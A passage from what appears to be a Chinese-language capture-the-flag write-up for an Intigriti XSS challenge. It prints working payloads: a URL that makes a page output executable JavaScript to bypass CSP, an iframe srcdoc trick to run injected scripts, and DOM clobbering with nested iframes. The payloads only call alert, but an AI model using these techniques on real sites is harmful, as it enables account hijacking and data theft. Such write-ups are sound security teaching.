 我最後做出來的 URL 是這樣：`https://challenge-0721.intigriti.io/htmledit.php?code=1;%0atop.alert(document.domain);/*`

產生的 HTML 長這樣：

``` html
<!-- 1; 這邊都是註解
top.alert(document.domain);/* --> 這之後也都是註解了
<!DOCTYPE html>
<html lang="en">
<head>
...
```

第一行是註解，`/*` 之後也都是註解，所以這一整段其實就是 `top.alert(document.domain);` 的意思。

不過這邊可以注意的是 htmledit.php 的 content type 不會變，依然還是 `text/html`，之所以可以把它當作 JS 引入，是因為同源的關係。如果你是把一個不同源的 HTML 當作 JS 引入，就會被 [CORB](https://www.chromium.org/Home/chromium-security/corb-for-developers) 給擋下來。

做到這邊，我們就可以讓 data 是 `<script src="https://challenge-0721.intigriti.io/htmledit.php?code=1;%0atop.alert(document.domain);/*"></script>`

這樣就會執行到 `text_tag.innerHTML = data`，成功在頁面上放進去 script 還繞過了 CSP，完美！

但可惜的是，還差一點點...

## 第八關：執行動態插入的 script

就在我以為要過關的時候，卻發現我的 script 怎樣都不會執行。後來用[關鍵字](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml)去查，才發現如果是用 innerHTML 插入 script 標籤，插入之後是不會去執行的。

我試著用 `innerhtml import script` 或是 `innerhtml script run` 之類的關鍵字去找解法但都沒找到。

最後，我是突然想到可以試試看 `<iframe srcdoc="...">`，有種死馬當活馬醫的感覺，反正就試試看這樣行不行，沒有損失。

結果沒想到就可以了。直接 assign 給 innerHTML 不行，但如果內容是：`<iframe srcdoc="<script src='...'></script>"` 就可以，就會直接載入 script。

## 最後解法

最後再補充一件事情，我要送出答案之前發現我的答案在 Firefox 上面不能跑，原因是這段程式碼：

``` html
<a id="users"></a>
<a id="users" name="admin" href="a"></a>
```

在 Chrome 上 `window.users` 會是 HTMLCollection，但在 Firefox 上面只會拿到一個 a 元素，而 `window.users.admin` 也就是 undefined。

但這問題不大，只要多一層 iframe 就可以搞定：

``` html
<iframe name="store" srcdoc="
  <iframe srcdoc='<a id=admin href=ftp://a:a@a#></a>' name=users>
">
</iframe>
```
